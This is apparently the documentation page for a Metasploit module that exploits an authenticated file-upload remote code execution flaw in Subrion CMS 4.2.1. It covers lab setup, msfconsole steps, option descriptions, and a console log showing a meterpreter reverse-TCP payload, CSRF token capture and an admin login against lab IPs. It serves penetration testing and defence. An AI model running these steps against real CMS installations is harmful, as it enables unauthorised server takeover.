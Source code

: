 ```
```

Once the configuration is done, navigate to `http://subrion-vuln.com/panel/` and login as an Administrator to confirm successful setup.

## Verification Steps

1. Install and set up Subrion CMS v4.2.1 as described above.
2. Verify that the admin panel login page can be accessed at `http://subrion-vuln.com/panel/`.
3. Start `msfconsole` and follow along with default options
4. Do: `use exploit/linux/http/subrion_cms_file_upload_rce`
5. Do: `set RHOSTS [SUBRION_SERVER_IP]`
6. Do: `set LHOST eth0`
7. Do: `exploit`

## Options

### RPORT (Required)

This is the default HTTP port 80 for the Subrion CMS website.

### TARGETURI (Required)

This is the base path of the Subrion CMS's website. Can be changed in case the files are not installed as a VHost,
for example, in `/var/www/html/subrion/*` and not in `/var/www/subrion/*`

### USERNAME (Required)

This is the username for the Subrion CMS admin panel page, required for exploitation.

### PASSWORD (Required)

This is the password for the Subrion CMS admin panel page, also required for exploitation.

## Scenarios

### Subrion CMS v4.2.1 on Debian 10

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.133
RHOSTS => 192.168.245.133
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.133:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: mKMUcUoMJjRxTxOog8DXxeFxLGQVU7rHSX6slM85
[*] Logging in to Subrion Admin Panel at: http://192.168.245.133/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
```